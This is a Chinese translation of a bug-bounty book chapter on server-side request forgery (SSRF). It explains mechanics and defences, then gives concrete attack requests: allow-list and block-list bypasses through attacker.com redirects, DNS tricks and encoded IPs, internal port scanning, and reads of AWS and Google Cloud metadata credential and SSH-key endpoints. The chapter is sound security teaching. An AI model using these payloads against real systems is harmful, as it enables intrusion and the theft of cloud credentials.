


# 13

服务器端请求伪造


*服务器端请求伪造（**SSRF**）* 是一种漏洞，允许攻击者代表服务器发送请求。在 SSRF 攻击中，攻击者伪造受害服务器的请求签名，从而能够在网络中占据特权位置，绕过防火墙控制，并访问内部服务。

在本章中，我们将介绍 SSRF 的工作原理，如何绕过常见的保护机制，以及当你发现一个漏洞时，如何进行漏洞升级。

## 机制

SSRF 漏洞发生在攻击者找到一种方法，能够像目标网络中的受信任服务器一样发送请求。想象一下，*example.com* 网络上有一台面向公众的 Web 服务器，名为 *public.example.com*。这台服务器托管了一个代理服务，位于 *public.example.com/proxy*，它获取 `url` 参数指定的网页并将其显示给用户。例如，当用户访问以下 URL 时，Web 应用程序会显示 *google.com* 的首页：

```
https://public.example.com/proxy?url=https://google.com
```

现在假设 *admin.example.com* 是网络中的一台内部服务器，托管着一个管理面板。为了确保只有员工能够访问该面板，管理员设置了访问控制，以防止其通过互联网访问。只有具有有效内部 IP 的机器，如员工工作站，才能访问该面板。

现在，假设一个普通用户访问以下 URL，会发生什么？

```
https://public.example.com/proxy?url=https://admin.example.com
```

在这里，`url` 参数设置为内部管理面板的 URL。如果没有 SSRF 保护机制，Web 应用程序将显示管理面板给用户，因为对管理面板的请求来自 Web 服务器，*public.example.com*，这是网络上的一台受信任机器。

通过 SSRF，服务器接受未经授权的请求，这些请求通常会被防火墙控制阻止，比如从非公司机器上获取管理面板。通常，位于网络边界、面向公众的 Web 服务器和互联网机器之间的防护措施，在可信网络中的机器之间并不存在。因此，隐藏管理面板不让互联网访问的防护措施并不适用于 Web 服务器和管理面板服务器之间的请求。

通过伪造受信任服务器的请求，攻击者可以突破组织的内部网络，进行各种恶意活动。根据暴露的互联网服务器所授予的权限，攻击者可能能够读取敏感文件，进行内部 API 调用，以及访问内部服务。

SSRF 漏洞有两种类型：常规 SSRF 和盲 SSRF。两者背后的机制是相同的：都利用了同一网络中机器之间的信任。唯一的区别是，在盲 SSRF 中，攻击者不会通过 HTTP 响应或错误信息收到服务器的反馈。例如，在前面的例子中，如果我们看到 *admin.example.com* 被显示出来，我们就知道 SSRF 攻击成功了。但在盲 SSRF 中，伪造的请求执行时不会向攻击者发送任何确认。

假设在 *public.example.com* 上，另一个功能允许用户通过其 web 服务器发送请求。但此端点不会将结果页面返回给用户。如果攻击者能够向内部网络发送请求，该端点会遭受盲 SSRF 漏洞：

```
https://public.example.com/send_request?url=https://admin.example.com/delete_user?user=1
```

尽管盲 SSRF 更难利用，但它仍然对攻击者非常有价值，攻击者可能能够进行网络扫描并利用网络上的其他漏洞。我们稍后会进一步探讨这个问题。

## 预防

SSRF 漏洞发生在服务器需要发送请求以获取外部资源时。例如，当你在 Twitter 上发布一个链接时，Twitter 会从外部网站获取图片以创建缩略图。如果服务器没有阻止用户使用相同的机制访问内部资源，就会发生 SSRF 漏洞。

让我们看另一个例子。假设 *public.example.com* 的页面允许用户通过此 POST 请求从 URL 中检索并上传个人资料照片：

```
POST /upload_profile_from_url
Host: public.example.com
(POST request body)
user_id=1234&url=https://www.attacker.com/profile.jpeg
```

为了从 *attacker.com* 获取 *profile.jpeg*，web 应用程序必须访问并从 *attacker.com* 获取内容。这是应用程序的安全预期行为。但如果服务器没有区分内部资源和外部资源，攻击者就可以轻易请求存储在服务器上的本地文件或网络上的其他文件。例如，攻击者可以发出以下 POST 请求，这将导致 web 服务器获取敏感文件并将其显示为用户的个人资料图片：

```
POST /upload_profile_from_url
Host: public.example.com
(POST request body)
user_id=1234&url=https://localhost/passwords.txt
```

防范 SSRF 漏洞的主要保护方式有两种：黑名单和白名单。*黑名单* 是一个被禁止的地址列表。如果请求中包含黑名单中的地址，服务器将阻止该请求。由于应用程序通常需要从各种互联网源获取资源，黑名单方法适用于大多数应用程序，因为要显式允许的地址过多。公司会将内部网络地址加入黑名单，并拒绝任何重定向到这些地址的请求。

另一方面，当站点实施 *允许列表* 保护时，服务器仅允许包含在预定列表中的 URL 请求，拒绝所有其他请求。一些服务器还通过要求内部请求中带有特殊头或秘密令牌来保护免受 SSRF 攻击。

## SSRF 漏洞狩猎

发现 SSRF 漏洞的最佳方法是通过审查应用程序的源代码，检查应用程序是否验证所有用户提供的 URL。但当无法获得源代码时，您应集中精力测试那些最容易受到 SSRF 攻击的功能。

### 步骤 1：发现易受 SSRF 攻击的功能

SSRF（服务器端请求伪造）出现在需要访问和获取外部资源的功能中。这些功能包括 webhook、文件上传、文档和图像处理器、链接扩展或缩略图以及代理服务。还应该测试任何处理用户提供的 URL 的端点。同时，注意那些不太明显的 SSRF 入口点，例如嵌入在应用程序处理的文件中的 URL（XML 文件和 PDF 文件常常被用来触发 SSRF）、接受 URL 作为输入的隐藏 API 端点以及插入到 HTML 标签中的输入。

*Webhook* 是自定义的 HTTP 回调端点，用作某些应用程序事件的通知系统。当发生诸如新用户注册或应用程序错误等事件时，发起方网站将向 webhook URL 发出 HTTP 请求。这些 HTTP 请求帮助公司收集有关网站性能和访客的信息，也有助于组织保持多个 Web 应用程序之间的数据同步。

当应用程序的某个操作需要触发另一个应用程序的操作时，webhook 就是一种通知系统，用于启动另一个过程。例如，如果公司想要向每个关注其社交媒体账户的用户发送欢迎电子邮件，可以使用 webhook 将两个应用程序连接起来。

许多网站允许用户设置他们的 webhook URL，这些设置页面通常容易受到 SSRF 攻击。大多数情况下，应用程序的 webhook 服务位于开发者门户中。例如，Slack 允许应用程序所有者通过其应用配置页面设置 webhook ([`api.slack.com/apps/`](https://api.slack.com/apps/))。在“事件订阅”部分，您可以指定一个 URL，当特殊事件发生时，Slack 会通知您 (图 13-1)。这些 webhook 服务的请求 URL 字段通常容易受到 SSRF 攻击。

另一方面，*代理服务* 是指作为两台机器之间中介的服务。它们位于请求的客户端和服务器之间，以促进或控制它们的通信。代理服务的常见用途包括绕过组织防火墙，访问被封锁的网站、匿名浏览互联网或加密互联网消息。



图 13-1：将 webhook 添加到 Slack

注意目标网站上的这些潜在易受攻击的功能，并将它们记录在类似这样的列表中以备将来参考：

**潜在的 SSRF 端点**

1.  添加新的 webhook：

```
POST /webhook
Host: public.example.com
(POST request body)
url=https://www.attacker.com
```

1.  通过 URL 上传文件：

```
POST /upload_profile_from_url
Host: public.example.com
(POST request body)
user_id=1234&url=https://www.attacker.com/profile.jpeg
```

1.  代理服务：

```
https://public.example.com/proxy?url=https://google.com
```

### 步骤 2：提供带有内部 URL 的潜在易受攻击端点

一旦识别出潜在的易受攻击端点，提供这些端点的内部地址作为 URL 输入。根据网络配置，你可能需要尝试多个地址才能找到网络正在使用的地址。以下是一些常见的保留用于私有网络的地址：*localhost*、127.0.0.1、0.0.0.0、192.168.0.1 和 10.0.0.1。

你可以在[`en.wikipedia.org/wiki/Reserved_IP_addresses`](https://en.wikipedia.org/wiki/Reserved_IP_addresses)找到更多用于识别私有网络中机器的保留 IP 地址。

为了说明，以下请求测试了 webhook 功能：

```
POST /webhook
Host: public.example.com
(POST request body)
url=https://192.168.0.1
```

这个请求测试文件上传功能：

```
POST /upload_profile_from_url
Host: public.example.com
(POST request body)
user_id=1234&url=https://192.168.0.1
```

这个请求测试代理服务：

```
https://public.example.com/proxy?url=https://192.168.0.1
```

### 步骤 3：检查结果

在常规的 SSRF 情况下，查看服务器是否返回包含任何内部服务信息的响应。例如，响应中是否包含服务横幅或内部页面的内容？*服务横幅*是指运行在机器上的软件的名称和版本。可以通过发送类似这样的请求来检查：

```
POST /upload_profile_from_url
Host: public.example.com
(POST request body)
user_id=1234&url=127.0.0.1:22
```

22 端口是安全外壳协议（SSH）的默认端口。这个请求告诉应用程序，我们的个人资料图片的 URL 位于 127.0.0.1:22，或者说是当前机器的 22 端口。通过这种方式，我们可以欺骗服务器访问它自己的 22 端口，并返回关于它自身的信息。

然后在响应中查找类似以下的文本：

```
Error: cannot upload image: SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.4
```

如果你找到类似的信息，可以确信该端点存在 SSRF 漏洞，因为你能够收集到关于本地主机的信息。

检测盲目 SSRF（服务器端请求伪造）最简单的方法是通过带外技术：你让目标向你控制的外部服务器发送请求，然后监控服务器日志中来自目标的请求。一种方法是使用在线托管服务，如 GoDaddy 或 Hostinger，这些服务提供服务器访问日志。你可以将你的托管站点链接到一个自定义域名，并在 SSRF 测试负载中提交该域名。

你还可以通过使用 Netcat 将自己的机器变成监听器，Netcat 是大多数 Linux 机器上默认安装的一个工具。如果你还没有 Netcat，可以使用命令`apt-get install netcat`进行安装。然后使用`nc -lp 8080`在端口 8080 上启动监听器。之后，你可以将你的 SSRF 负载指向你的 IP 地址和 8080 端口，监控是否有任何流量传入。另一种更简单的方法是使用 Burp Suite Pro 中的 Collaborator 功能，它会自动生成唯一的域名，将其作为负载发送给目标，并监控与目标相关的任何交互。

然而，仅仅能够从目标服务器生成出站请求并不是一个可利用的问题。由于你无法使用盲目 SSRF 来读取内部文件或访问内部服务，你需要通过尝试用 SSRF 探索内部网络来确认其可利用性。向不同的目标端口发送请求，看看服务器在常见开放端口和关闭端口之间的行为是否有所不同。例如，端口 22、80 和 443 是常见的开放端口，而端口 11 则不是。这将帮助你判断攻击者是否能够利用 SSRF 访问内部网络。你可以特别关注响应时间和 HTTP 响应代码的差异。

例如，服务器使用 HTTP 状态码 200 来表示请求已成功。通常，如果服务器能够连接到指定的端口，它会返回 200 状态码。假设以下请求会导致 HTTP 状态码 200：

```
POST /webhook
Host: public.example.com
(POST request body)
url=https://127.0.0.1:80
```

以下请求会导致 HTTP 状态码 500，即内部服务器错误状态码。服务器在处理请求时遇到错误时会返回 500 状态码，因此 500 状态码通常表示端口已关闭或受保护：

```
POST /webhook
Host: public.example.com
(POST request body)
url=https://127.0.0.1:11
```

你可以确认服务器确实正在向这些端口发起请求，并根据端口状态做出不同的响应。

还要查看响应之间的时间差异。你可以在图 13-2 中看到，Burp 重复器在右下角显示了服务器响应所花费的时间。在这里，Google 返回主页用了 181 毫秒。你可以使用像 SSRFmap ([`github.com/swisskyrepo/SSRFmap/`](https://github.com/swisskyrepo/SSRFmap/)) 这样的工具来自动化这个过程。



图 13-2：Burp 重复器向你展示服务器响应请求所花费的时间。

如果端口关闭，服务器通常会更快地响应，因为它会立即丢弃转发的流量，而内部防火墙通常会导致响应延迟。攻击者可以利用时间延迟作为度量来推测目标的内部网络结构。如果你能识别出不同端口之间请求的显著时间差异，那么你就找到了一个可利用的 SSRF。

## 绕过 SSRF 保护

如果你提交一个 SSRF 负载，但服务器返回了这个响应，怎么办？

```
Error. Requests to this address are not allowed. Please try again.
```

这个 SSRF 被保护机制阻止了，可能是 URL 白名单或黑名单。但是并不是一切都丧失了！该站点可能实现了保护机制，但这并不意味着保护是完整的。这里有一些其他方法，你可以尝试绕过站点的保护。

### 绕过白名单

允许列表通常是最难绕过的，因为默认情况下它们比阻止列表更严格。但如果你能够在允许列表域中找到一个开放重定向漏洞，绕过它仍然是可能的。（有关这些漏洞的更多信息，请参阅第七章。）如果你发现了一个漏洞，你可以请求一个允许列表的 URL，该 URL 会重定向到内部 URL。例如，即使该网站只允许从其子域之一上传个人资料图片，你也可以通过开放重定向诱发一个 SSRF。

在以下请求中，我们利用 *pics.example.com* 上的开放重定向，将请求重定向到 127.0.0.1，这是本地主机的 IP 地址。这样，即使 `url` 参数通过了允许列表，它仍然会重定向到受限的内部地址：

```
POST /upload_profile_from_url
Host: public.example.com
(POST request body)
user_id=1234&url=https://pics.example.com/123?redirect=127.0.0.1
```

服务器也可能通过设计不良的正则表达式（regex）实现其允许列表。正则表达式通常用于构建更灵活的允许列表。例如，网站可以检查类似 `.*example.com.*` 的正则表达式，以匹配 *example.com* 的子域和文件路径，而不是简单地检查 URL 字符串是否等于 `"example.com"`。在这种情况下，如果你能将允许列表域放入请求 URL 中，你就可以绕过正则表达式。例如，此请求将重定向到 127.0.0.1，因为 *pics.example.com* 被视为 URL 的用户名部分：

```
POST /upload_profile_from_url
Host: public.example.com
(POST request body)
user_id=1234&url=https://pics.example.com@127.0.0.1
```

以下请求也会重定向到 127.0.0.1，因为 *pics.example.com* 被视为 URL 的目录部分：

```
POST /upload_profile_from_url
Host: public.example.com
(POST request body)
user_id=1234&url=https://127.0.0.1/pics.example.com
```

你可以通过尝试像这样的 URL 来测试一个网站是否使用了过于灵活的正则表达式允许列表，看看过滤器是否允许它。请注意，如果正则表达式构造得当，基于正则表达式的允许列表是可以安全的。而且这些 URL 并不总是成功的！

### 绕过阻止列表

由于应用程序通常需要从各种互联网来源获取资源，大多数 SSRF 保护机制以阻止列表的形式存在。如果你遇到阻止列表，还是有很多方法可以欺骗服务器。

#### 通过重定向欺骗它

首先，你可以让服务器请求一个你控制的 URL，该 URL 会重定向到被阻止的地址。例如，你可以要求目标服务器向你的服务器发送请求：

```
https://public.example.com/proxy?url=https://attacker.com/ssrf
```

然后，在你控制的服务器上（*https://attacker.com/ssrf*），你可以托管一个包含以下内容的文件：

```
<?php header("location: http://127.0.0.1"); ?>
```

这是一个 PHP 代码片段，通过将文档的地址设置为 127.0.0.1 来重定向请求。当你发出目标服务器请求 *https://attacker.com/ssrf* 时，目标服务器将被重定向到 *http://127.0.0.1*，这是一个受限的内部地址。此攻击将绕过阻止列表，因为提交给应用程序的 URL 本身不包含任何被列入阻止列表的地址。

#### 使用 IPv6 地址

我在第三章中提到过，IPv6 地址是 IPv4 地址的更新替代方案。随着全球 IPv4 地址的用尽，互联网工程任务组(IETF)创建了 IPv6 地址，以提供更多的地址格式。IPv6 地址是 128 位的值，以十六进制表示，看起来像这样：64:ff9b::255.255.255.255。

有时，网站为 IPv4 实施的 SSRF 防护机制可能并未为 IPv6 实施。这意味着你可以尝试提交指向本地网络的 IPv6 地址。例如，IPv6 地址*::1*指向本地主机，而*fc00::*是私有网络中的第一个地址。

要了解更多关于 IPv6 如何工作的内容，以及其他保留的 IPv6 地址，请访问 Wikipedia：[`en.wikipedia.org/wiki/IPv6_address`](https://en.wikipedia.org/wiki/IPv6_address)。

#### 利用 DNS 欺骗服务器

你还可以尝试通过 DNS 记录混淆服务器，DNS 记录是计算机用于将主机名转换为 IP 地址的工具。DNS 记录有多种类型，但你最常听到的是 A 记录和 AAAA 记录。*A 记录*将主机名指向 IPv4 地址，而*AAAA 记录*将主机名转换为 IPv6 地址。

修改你控制的域名的 A/AAAA 记录，并将其指向受害者网络上的内部地址。你可以通过运行以下命令检查你域名当前的 A/AAAA 记录：

```
nslookup `DOMAIN`
nslookup `DOMAIN` -type=AAAA
```

你通常可以通过使用域名注册商或网页托管服务的设置页面来配置你的域名的 DNS 记录。例如，我使用 Namecheap 作为我的域名服务。在 Namecheap 中，你可以通过进入账户并选择“域名列表▶管理域名▶高级 DNS▶添加新记录”来配置 DNS 记录。创建一个主机名到 IP 地址的自定义映射，并使你的域名解析到 127.0.0.1。你可以通过为你的域名创建一个新的 A 记录，使其指向 127.0.0.1 来实现这一点。

然后，你可以要求目标服务器向你的服务器发送请求，如下所示：

```
https://public.example.com/proxy?url=https://attacker.com
```

现在，当目标服务器请求你的域名时，它会认为你的域名位于 127.0.0.1，并从该地址请求数据。

#### 切换编码方式

有许多种方式可以对 URL 或地址进行编码。字符编码是表示相同字符的不同方式，同时保留其含义。它们通常用于使数据传输或存储更加高效。这些编码方法不会改变服务器如何解释地址的位置，但它们可能允许输入绕过阻止列表，特别是当阻止列表只禁止某种特定编码方式的地址时。

可能的编码方法包括十六进制编码、八进制编码、dword 编码、URL 编码和混合编码。如果目标服务器的 URL 解析器没有正确处理这些编码方法，你可能能够绕过 SSRF 保护。到目前为止，本书中提供的示例地址都使用了 *十进制编码*，这是使用 0 到 9 的字符的基数 10 格式。要将十进制格式的 IP 地址转换为十六进制，计算 IP 地址每一段的十六进制等效值。你可以使用十进制到十六进制的计算器来进行转换，然后将整个地址组合起来。例如，127.0.0.1 的十进制转换为十六进制是 0x7f.0x0.0x0.0x1。每段前面的 0x 表示它是一个十六进制数。然后，你可以在潜在的 SSRF 端点中使用十六进制地址：

```
https://public.example.com/proxy?url=https://0x7f.0x0.0x0.0x1
```

*八进制编码* 是一种通过使用 0 到 7 的字符在基数 8 格式中表示字符的方法。与十六进制一样，你可以通过重新计算每一段将 IP 地址转换为八进制形式。你也可以利用在线计算器来完成这个过程；只需搜索 *十进制到八进制计算器* 来找到一个。例如，127.0.0.1 转换为 0177.0.0.01。在这种情况下，前导零是必要的，以表明该部分是一个八进制数。然后在潜在的 SSRF 端点中使用它：

```
https://public.example.com/proxy?url=https://0177.0.0.01
```

*dword*，即 *双字* 编码方案，将一个 IP 地址表示为单个 32 位整数（称为 dword）。要将地址转换为 dword，需要将地址拆分成四个八位字节（8 位的一组），并写出它的二进制表示。例如，127.0.0.1 的十进制表示为 01111111.00000000.00000000.00000001。当我们将整个数字 01111111000000000000000000000001 转换为一个单一的十进制数字时，就得到了 dword 格式的 IP 地址。

`127.0.0.1` 在 dword 格式中是什么？它是通过计算 127 × 256³ + 0 × 256² + 0 × 256¹ + 1 × 256⁰ 得出的答案，结果是 2130706433。你可以使用二进制到十进制的计算器来计算这个。如果你在浏览器中输入 *https://2130706433* 而不是 *https://127.0.0.1*，它仍然可以被理解，并且你可以在潜在的 SSRF 端点中使用它：

```
https://public.example.com/proxy?url=https://2130706433
```

当服务器阻止访问像 https://localhost 这样的内部主机名时，试试它的 URL 编码等效形式：

```
https://public.example.com/proxy?url=https://%6c%6f%63%61%6c%68%6f%73%74
```

最后，你可以使用多种编码技术的组合来试图绕过黑名单。例如，在地址 0177.0.0.0x1 中，第一段使用了八进制编码，接下来的两段使用十进制编码，最后一段使用十六进制编码。

这只是您可以尝试的绕过方法的一小部分。您可以使用更多创造性的方式来击败保护并实现 SSRF。当找不到有效的绕过方法时，通过改变视角来问自己：如果我要为此功能实现保护机制，我会怎么做？设计您认为保护逻辑会是什么样子。然后尝试绕过您设计的机制。是否可能？在实施保护时是否遗漏了什么？应用程序的开发人员可能也会遗漏一些东西吗？

## 升级攻击

SSRF 的影响可能有所不同，但如果您知道如何通过与不同漏洞链接来升级它们，它们具有很大的潜力。现在您已经掌握了 SSRF 的基础知识，让我们学习如何最有效地利用它们。

SSRF（Server-Side Request Forgery，服务端请求伪造）通常可以实现的功能取决于网络中发现的内部服务。根据情况，您可以使用 SSRF 扫描网络上的可达主机，对内部机器进行端口扫描以识别内部服务，收集实例元数据，绕过访问控制，泄露机密数据，甚至在可达机器上执行代码。

### 执行网络扫描

有时您可能希望扫描网络以查找其他可达机器。*可达机器*是可以通过当前机器连接的其他网络主机。这些内部机器可能托管数据库、内部网站和其他敏感功能，黑客可以利用它们来获取优势。要执行扫描，请向易受攻击的端点提供一系列内部 IP 地址，并查看服务器是否对每个地址有不同的响应。例如，当您请求地址 10.0.0.1 时

```
POST /upload_profile_from_url
Host: public.example.com
(POST request body)
user_id=1234&url=https://10.0.0.1
```

服务器可能会以以下消息响应：

```
Error: cannot upload image: http-server-header: Apache/2.2.8 (Ubuntu) DAV/2
```

但是当您请求地址 10.0.0.2 时

```
POST /upload_profile_from_url
Host: public.example.com
(POST request body)
user_id=1234&url=https://10.0.0.2
```

服务器可能会以以下消息响应：

```
Error: cannot upload image: Connection Failed
```

您可以推断 10.0.0.1 是网络上有效主机的地址，而 10.0.0.2 则不是。通过服务器行为的差异，您可以收集关于网络结构的信息，如可达主机的数量及其 IP 地址。

您还可以使用 SSRF 对网络机器进行端口扫描并揭示这些机器上运行的服务。开放端口通常是机器上运行服务的良好指示，因为服务通常会在某些默认端口上运行。例如，默认情况下，SSH 运行在端口 22 上，HTTP 运行在端口 80 上，HTTPS 运行在端口 443 上。端口扫描结果通常指向您应手动检查的端口，并且可以帮助您计划进一步针对找到的服务的攻击。

向易受攻击的端点提供不同的端口号，然后确定服务器行为在端口之间是否有差异。这与扫描主机的过程相同，只是这次要更换的是端口号而不是主机。端口号范围从 0 到 65535。

假设您想找出内部机器上开放的端口。当您向内部机器的端口 80 发送请求时，服务器会以以下消息响应：

```
Error: cannot upload image: http-server-header: Apache/2.2.8 (Ubuntu) DAV/2
```

当你向同一机器的 11 端口发送请求时，机器会以以下信息作出响应：

```
Error: cannot upload image: Connection Failed
```

我们可以推测机器的 80 端口是开放的，而 11 端口则没有。你还可以从响应中得知该机器正在运行 Apache Web 服务器和 Ubuntu Linux 发行版。你可以利用这里揭示的软件信息进一步构造针对系统的攻击。

### 拉取实例元数据

云计算服务允许企业在他人的服务器上运行其应用程序。Amazon Elastic Compute Cloud (EC2) 提供了一种实例元数据工具，使 EC2 实例可以通过查询 API 端点 169.254.169.254 来访问有关自身的数据。*实例* 是用于在云提供商基础设施上运行应用程序的虚拟服务器。Google Cloud 提供了类似的实例元数据 API 服务。

这些 API 端点默认是可访问的，除非网络管理员特别阻止或禁用它们。这些服务揭示的信息通常极其敏感，可能会导致攻击者将 SSRF 升级为严重的信息泄露，甚至远程代码执行（RCE）。

#### 查询 EC2 元数据

如果某公司将其基础设施托管在 Amazon EC2 上，请尝试使用此端点查询有关主机的各种实例元数据。例如，此 API 请求将获取运行中的实例的所有元数据：

```
http://169.254.169.254/latest/meta-data/
```

在易受 SSRF 攻击的端点中使用此 URL：

```
https://public.example.com/proxy?url=http://169.254.169.254/latest/meta-data/
```

这些端点揭示了如 API 密钥、Amazon S3 令牌（用于访问 Amazon S3 存储桶的令牌）和密码等信息。尝试请求这些特别有用的 API 端点：

+   *http://169.254.169.254/latest/meta-data/* 返回可查询的元数据列表。

+   *http://169.254.169.254/latest/meta-data/local-hostname/* 返回主机使用的内部主机名。

+   *http://169.254.169.254/latest/meta-data/iam/security-credentials/ROLE_NAME* 返回该角色的安全凭证。

+   *http://169.254.169.254/latest/dynamic/instance-identity/document/* 揭示当前实例的私有 IP 地址。

+   *http://169.254.169.254/latest/user-data/* 返回当前实例的用户数据。

你可以在[`docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html`](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html)找到该 API 端点的完整文档。

#### 查询 Google Cloud 元数据

如果公司使用的是 Google Cloud，请改为查询 Google 实例元数据 API。Google 为其 API 端点实施了额外的安全措施，因此查询 Google Cloud Metadata APIv1 时需要使用以下特殊头部之一：

```
Metadata-Flavor: Google
X-Google-Metadata-Request: True
```

这些头部提供了防护措施，以防 SSRF 攻击，因为在大多数 SSRF 攻击中，你无法为伪造的请求指定特殊的头部。但你可以轻松绕过这一保护，因为通过 APIv1 访问的大多数端点也可以通过 API v1beta1 端点访问。*API v1beta1* 是元数据 API 的一个较旧版本，它没有相同的头部要求。从这些关键端点开始：

+   *http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token* 返回实例上默认账户的访问令牌。

+   *http://metadata.google.internal/computeMetadata/v1beta1/project/attributes/ssh-keys* 返回可以连接到该项目中其他实例的 SSH 密钥。

阅读完整的 API 文档，网址为 [`cloud.google.com/compute/docs/storing-retrieving-metadata/`](https://cloud.google.com/compute/docs/storing-retrieving-metadata/)。请注意，API v1beta1 在 2020 年已被弃用，并正在逐步关闭。未来，你可能需要使用 APIv1 查询元数据，并且需要找到方法伪造必要的头部信息，以请求使用谷歌云的目标实例元数据。

亚马逊和谷歌并不是唯一提供元数据 API 的网络服务。然而，这两家公司控制了大部分市场份额，所以你正在测试的公司很可能在这两个平台之一。如果不是，DigitalOcean 和 Kubernetes 集群也存在相同的问题。例如，对于 DigitalOcean，你可以通过访问 *http://169.254.169.254/metadata/v1/* 端点来获取元数据端点列表。然后，你可以检索关键的配置信息，如实例的主机名和用户数据。对于 Kubernetes，可以尝试访问 *https://kubernetes.default* 和 *https://kubernetes.default.svc/metrics* 来获取关于系统的信息。

### 利用盲 SSRF

由于盲 SSRF 不会返回响应或错误消息，因此其利用通常仅限于网络映射、端口扫描和服务发现。而且，由于你无法直接从目标服务器提取信息，这种利用严重依赖推测。然而，通过分析 HTTP 状态码和服务器响应时间，我们通常可以取得类似常规 SSRF 的结果。

#### 使用 HTTP 状态码进行网络和端口扫描

记住在第五章中提到的，HTTP 状态码提供了关于请求是否成功的信息。通过比较请求不同端点时返回的响应码，我们可以推测哪些端点是有效的。例如，如果请求 *https://public.example.com/webhook?url=10.0.0.1* 返回 HTTP 状态码 200，而请求 *https://public.example.com/webhook?url=10.0.0.2* 返回 HTTP 状态码 500，那么我们可以推断 10.0.0.1 是网络中一个有效主机的地址，而 10.0.0.2 不是。

使用盲 SSRF 进行端口扫描的方式与此类似。如果服务器对某些端口返回 200 状态码，对其他端口返回 500 状态码，那么 200 状态码可能表示机器上的开放端口。另一方面，如果所有请求都返回相同的状态码，说明该站点可能已经实施了针对 SSRF 端口扫描的保护。

#### 使用服务器响应时间进行网络和端口扫描

如果服务器没有返回任何有用的信息（例如状态码），你仍然可以通过检查服务器响应请求所花费的时间来推断网络结构。如果某些地址的响应时间明显较长，这些网络地址可能是未路由的，或者隐藏在防火墙后面。*未路由地址*无法从当前机器访问。另一方面，异常短的响应时间也可能表示一个未路由的地址，因为路由器可能会立即丢弃请求。

在执行任何形式的网络或端口扫描时，重要的是要记住不同的机器表现不同。关键是要寻找同一网络上机器行为的差异，而不是像之前提到的响应时间或响应代码等特定标志。

目标机器也可能在出站请求中泄露敏感信息，例如内部 IP、头信息和所用软件的版本号。如果你无法访问内部地址，你可以尝试向漏洞端点提供你拥有的服务器地址，看看从传入请求中能提取到什么信息。

### 攻击网络

利用你通过扫描网络、识别服务以及获取实例元数据找到的信息，执行具有影响力的攻击。特别是，你可能能够绕过访问控制、泄露机密信息并执行代码。

首先，尝试绕过访问控制。一些内部服务可能仅根据 IP 地址或内部头信息控制访问，因此通过简单地从受信任的机器发送请求，可能绕过对敏感功能的控制。例如，你可能能够通过代理一台 Web 服务器访问内部网站：

```
https://public.example.com/proxy?url=https://admin.example.com
```

你也可以尝试通过 SSRF 端点执行内部 API 调用。这种攻击需要对内部系统和 API 语法有一定了解，你可以通过侦察和系统的其他信息泄露获得这些知识。例如，假设 API 端点*admin.example.com/delete_user*用于删除用户，且只能通过内部地址请求。如果你发现一个允许从受信任网络中的机器发送请求的 SSRF 漏洞，你就可以触发该请求：

```
https://public.example.com/send_request?url=https://admin.example.com/delete_user?user=1
```

第二，如果你通过头部泄露信息或查询实例元数据，利用 SSRF 找到凭证，使用这些凭证访问网络上存储的机密信息。例如，如果你找到了 Amazon S3 密钥，枚举公司的私有 S3 存储桶，看看你能否使用找到的凭证访问它们。

第三，利用你收集到的信息，将 SSRF 转变为远程代码执行（你将在第十八章中学习更多内容）。例如，如果你找到了具有写入权限的管理员凭证，尝试向 Web 服务器上传一个 shell。或者，如果你发现了一个没有安全保护的管理员面板，看看是否有任何功能允许执行脚本。你还可以使用经典或盲 SSRF 测试目标网络中的其他漏洞，通过发送专门检测已知漏洞的有效负载到可访问的机器。

## 找到你的第一个 SSRF！

让我们回顾一下你可以采取的步骤，找到你的第一个 SSRF：

1.  识别易受 SSRF 攻击的特性并做好记录，以备将来参考。

1.  设置一个回调监听器，使用在线服务、Netcat 或 Burp 的 Collaborator 功能来检测盲 SSRF。

1.  向潜在易受攻击的端点提供常见的内部地址或你的回调监听器地址。

1.  检查服务器是否响应了确认 SSRF 的信息，或者在盲 SSRF 的情况下，检查你的服务器日志中是否有来自目标服务器的请求。

1.  对于盲 SSRF，检查在请求不同的主机或端口时，服务器行为是否有所不同。

1.  如果实施了 SSRF 保护，尝试使用本章讨论的策略绕过它。

1.  选择一种策略来升级 SSRF。

1.  撰写你的第一个 SSRF 报告！
